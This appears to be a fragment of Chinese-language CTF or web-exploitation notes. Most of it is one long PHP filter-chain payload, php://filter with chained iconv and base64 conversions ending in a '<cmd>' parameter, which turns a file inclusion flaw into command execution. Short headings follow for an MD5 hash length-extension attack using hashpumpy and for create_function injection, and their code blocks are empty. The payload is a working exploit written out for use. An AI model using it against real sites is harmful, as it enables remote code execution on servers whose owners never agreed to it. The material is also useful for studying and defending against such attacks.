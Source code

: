 ```php
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=home&0=<cmd>
```
# md5的hash扩展攻击
使用`hashpumpy`可以攻击
```bash

```
# create_function函数注入
